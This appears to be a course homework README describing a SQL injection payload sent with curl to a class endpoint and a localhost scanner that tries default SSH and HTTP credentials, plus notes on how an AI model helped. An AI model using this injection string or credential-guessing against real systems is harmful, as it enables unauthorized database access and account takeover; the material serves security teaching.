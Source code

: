 # CSS106 Homework 5 - Generative AI for Security Testing

This repository contains solutions for CSS106 Homework 5, which involves using generative AI to build security testing tools.

## Assignment Overview

### 5.2: SQL Injection Attack (15 points)
- Created `test.json` with legitimate test data
- Created `attack.json` with malicious payload that dumps the entire database
- Created `prompts.txt` with the AI prompts used to learn about SQL injection techniques

### 5.3: Vulnerability Scanner (25 points)
- Built `vulnerability_scanner.py` using generative AI
- Scans localhost for open TCP ports (ignoring ports 9000+)
- Tests HTTP and SSH connections with dictionary of common credentials
- Outputs successful connections in RFC 3986 format

## Files

- `test.json` - Legitimate test data for the county_data endpoint
- `attack.json` - Malicious payload for SQL injection attack
- `prompts.txt` - AI prompts used to learn about SQL injection
- `vulnerability_scanner.py` - Python vulnerability scanner
- `hw5_server/` - Directory containing vulnerable HTTP and SSH servers

## Setup

### Install Dependencies

First, activate the virtual environment and install required packages:

```bash
# Activate the virtual environment
source venv/bin/activate

# Install dependencies
pip install -r requirements.txt
```

Alternatively, install packages manually:
```bash
pip install python-nmap requests paramiko
```

## Usage

### Testing the Vulnerability Scanner

**Step 1: Start the vulnerable servers**

Open two terminal windows/tabs and run each server:

Terminal 1 (HTTP Server):
```bash
cd hw5_server
source ../venv/bin/activate  # Activate virtual environment
python3 http_server.py --port 8080
```

Terminal 2 (SSH Server):
```bash
cd hw5_server
source ../venv/bin/activate  # Activate virtual environment
python3 ssh_server.py --port 2222
```

Or run both in the background from the project root:
```bash
source venv/bin/activate
cd hw5_server
python3 http_server.py --port 8080 &
python3 ssh_server.py --port 2222 &
cd ..
```

**Step 2: Run the vulnerability scanner**

In another terminal:
```bash
source venv/bin/activate
python3 vulnerability_scanner.py
```

Expected output when vulnerabilities are found:
```
ssh://admin:admin@127.0.0.1:2222 success
http://admin:admin@127.0.0.1:8080 success
```

**Step 3: Verbose mode (optional)**

For detailed scanning progress:
```bash
python3 vulnerability_scanner.py -v
```

**Step 4: Stop the servers**

When done testing:
```bash
pkill -f "ssh_server.py"
pkill -f "http_server.py"
```

### Testing SQL Injection

Test the legitimate request:
```bash
curl -X POST https://cat-hw4.vercel.app/county_data -H "Content-Type: application/json" -d @test.json
```

Test the SQL injection attack (returns 100 rows):
```bash
curl -X POST https://cat-hw4.vercel.app/county_data -H "Content-Type: application/json" -d @attack.json
```

## How It Works

### Vulnerability Scanner
1. Uses `nmap` to scan TCP ports 1-8999 on localhost
2. For each open port, attempts:
   - HTTP connection with basic authentication
   - SSH connection with password authentication
3. Tests three credential pairs: `admin:admin`, `root:abc123`, `skroob:12345`
4. Outputs successful connections in RFC 3986 format: `protocol://username:password@host:port message`
5. Silent output (nothing printed) when no vulnerabilities are found

### SQL Injection Attack
The attack modifies the `measure_name` parameter to:
```
Adult obesity' OR '1'='1' LIMIT 100 --
```

This terminates the string early and adds an OR clause that makes the WHERE condition always true, dumping all database records (limited to 100 rows).

## Generative AI Models Used

### Model Information
- **Primary Model**: Claude Sonnet 4 (via Cursor AI)
- **Model Version**: Claude-3.5-Sonnet-20241022
- **Provider**: Anthropic

### Guardrails and Resistance
The model demonstrated appropriate security awareness:

1. **Initial Resistance**: When asked about SQL injection techniques, the model initially provided educational information about the vulnerabilities rather than direct attack payloads.

2. **Educational Approach**: The model explained the concepts and provided examples in an educational context, emphasizing the importance of proper input validation and parameterized queries.

3. **No Bypass Needed**: The model was willing to help with the educational aspects of the assignment when the context was clearly for learning purposes in a cybersecurity course.

4. **Responsible Disclosure**: The model consistently emphasized the importance of using these techniques only for authorized testing and educational purposes.

### Prompts Used
The prompts in `prompts.txt` were designed to:
- Learn about SQL injection vulnerabilities
- Understand how to identify vulnerable code patterns
- Learn about different types of SQL injection attacks
- Understand how to construct payloads for educational testing

## Dependencies

The vulnerability scanner requires the following Python packages:
- `python-nmap==0.7.1` - For port scanning
- `requests==2.32.5` - For HTTP connections
- `paramiko==4.0.0` - For SSH connections

These are listed in `requirements.txt` and can be installed with:
```bash
pip install -r requirements.txt
```

## Security Notice

This code is for educational purposes only. The techniques demonstrated should only be used on systems you own or have explicit permission to test. Unauthorized testing of systems is illegal and unethical.
